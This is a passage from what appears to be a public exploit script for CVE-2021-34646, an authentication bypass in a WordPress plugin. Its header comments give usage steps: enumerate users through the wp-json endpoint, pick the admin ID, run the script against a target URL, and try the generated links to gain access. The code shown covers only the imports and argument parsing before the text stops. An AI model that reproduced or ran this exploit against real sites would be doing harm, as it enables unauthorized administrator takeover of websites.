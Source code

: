         # Fully Patched Version: >= 5.4.4
        # CVE: CVE-2021-34646
        # CVSS Score: 9.8 (Critical)
        # Category: webapps
        #
        # 1:
        # Goto: https://target.com/wp-json/wp/v2/users/
        # Pick a user-ID (e.g. 1 - usualy is the admin)
        #
        # 2:
        # Attack with: ./exploit_CVE-2021-34646.py https://target.com/ 1
        #
        # 3:
        # Check-Out  out which of the generated links allows you to access the system
        #
        import requests,sys,hashlib
        import argparse
        import datetime
        import email.utils
        import calendar
        import base64

        B = "\033[94m"
        W = "\033[97m"
        R = "\033[91m"
        RST = "\033[0;0m"

        parser = argparse.ArgumentParser()
        parser.add_argument("url", help="the base url")
        parser.add_argument('id', type=int, help='the user id', default=1)
        args = parser.parse_args()
        id = str(args.id)
        url = args.url
        if args.url[-1] != "/": # URL needs trailing /
              url = url + "/"
